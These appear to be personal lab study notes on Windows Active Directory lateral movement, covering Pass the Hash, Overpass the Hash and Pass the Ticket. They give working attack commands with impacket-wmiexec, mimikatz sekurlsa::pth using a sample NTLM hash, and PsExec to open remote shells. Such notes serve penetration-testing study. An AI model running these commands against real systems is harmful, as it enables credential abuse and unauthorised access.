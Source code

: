 
### Pass The Hash

using user NTLM hash instead of plain text when rockyou no work

only work for NTLM using service, if Kerbereos it's not going to work

SMB -> NTLM hash

can be used to starrt windows service

### Pass The Hash:
1. SMB through firewall on 445
2. Windows File and Printer Sharing
3. ADMIN$ available

need to present valid credentials with local admin permission

wmiexec from Impacket on kali

impacket-wmiexec -hashes :`<hash>` `<user>`@`<ip>`

only works for AC domain account and built-in local admin account


### Overpass the Hash

abuse NTLM hash to gain full Kerberos TGT -> TGS

run as a different user: shift left-click "show more options" -> Run as different user

after we ran this, the credentials of the user will be cached we can see it on mimikatz

no we turn the NTLM into a kerberos ticket

mimikatz
sekurlsa::pth /user:`<username>` /domain:`<domain>`.com /ntlm:`<hash>` /run:powershell

example:
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell

remember to only run this on the cmd opened by mimikatz to use the ticket
net use \\file04 
to get a TGT

### PsExec can run command remotely, no password hash so we can run it with kerberos ticket

.\### PsExec.exe \\`<machine>` cmd
example:
.\### PsExec.exe \\files04 cmd


### Pass the Ticket

TGT us tied to user session and cannont be reused, TGS can be exported and reused across system

### Pass the Ticket uses the TGS, if service ticket belong to current user admin is not needed
